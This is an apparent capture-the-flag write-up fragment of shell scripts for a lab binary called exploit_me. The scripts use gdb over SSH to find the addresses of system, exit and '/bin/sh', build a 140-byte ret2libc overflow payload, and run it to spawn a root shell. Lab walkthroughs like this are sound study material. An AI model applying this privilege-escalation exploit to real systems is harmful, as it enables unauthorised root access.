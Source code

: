 ### Find eip offset
```shell
python3 scripts/writeup2/zaz.py 'offset' $ssh_login $ssh_password $IP
```

### Collect data for ret2libc
```shell
sh_address=`echo -e"\n" | ssh_executor 'echo -e "q" | gdb ./exploit_me -q -ex "b* main" -ex "r" -ex "find 0xb7e2c000,0xb7fcf000,\"/bin/sh\"" | egrep "^0x"'`
echo $sh_address
sh_address=`python3 scripts/writeup2/zaz.py 'address' $sh_address`
system_address=`echo -e"\n" | ssh_executor 'echo -e "q" | gdb ./exploit_me -q "b* main" -ex "r" -ex "i func system" | egrep " system" | cut -d " " -f 1'`
echo $system_address
system_address=`python3 scripts/writeup2/zaz.py 'address' $system_address`
exit_address=`echo -e"\n" | ssh_executor 'echo -e "q" | gdb ./exploit_me -q "b* main" -ex "r" -ex "i func exit" | egrep " exit$" | cut -d " " -f 1'`
echo $exit_address
exit_address=`python3 scripts/writeup2/zaz.py 'address' $exit_address`
```

### Create shellcode
```shell
cmd="\$(python -c 'print \".\" * 140 + \"$system_address\" + \"$exit_address\" + \"$sh_address\"')"
ssh_executor << EOF 
echo $cmd > shell_code
EOF
```

### Run root shell
```shell
ssh_executor '(echo "id && whoami"; cat - ) | ./exploit_me `cat shell_code`'
```